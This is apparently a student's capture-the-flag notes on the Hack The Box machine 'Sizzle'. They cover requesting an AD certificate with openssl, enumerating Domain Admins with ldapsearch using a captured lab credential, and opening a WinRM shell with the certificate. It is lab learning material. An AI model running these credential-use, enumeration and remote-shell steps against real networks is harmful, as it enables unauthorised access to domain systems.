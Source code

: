 This error, From IPPSEC video

**This authenticates the certificate, not the user**

![Untitled](Sizzle%206f38bb53eab5448c9d452e52de3d0049/Untitled%206.png)

Request a certificate > advanced certificate request. > Enter data in Base 64 ? (User) > Submit > download as Base64 format  (**certnew.cer**)

```markdown
#Generating a certificate
>openssl genrsa -aes256 -out amanda.key 2048 (amanda - password)
# Signing the certificate
>openssl req -new -key amanda.key -out amanda.csr(ENter passowrd given above, thenEnter and Enter for all options)
#Submit this amanda.csr text in the website ABove image states 
>
```

![Untitled](Sizzle%206f38bb53eab5448c9d452e52de3d0049/Untitled%207.png)

Changed code added certificate like above 

```markdown

>ldapsearch -x -H ldap://sizzle.htb.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' 
>ldapsearch -x -H ldap://sizzle.htb.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins,CN=Users,DC=htb,DC=local))"
>ldapsearch -x -H ldap://sizzle.htb.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins,CN=Users,DC=htb,DC=local))" |grep sAMAccountName
sAMAccountName: Administrator
sAMAccountName: sizzler
>rlwrap ruby winrm_shell.rb
# After waiting for some time got shell, enter certificate password.
>dir
```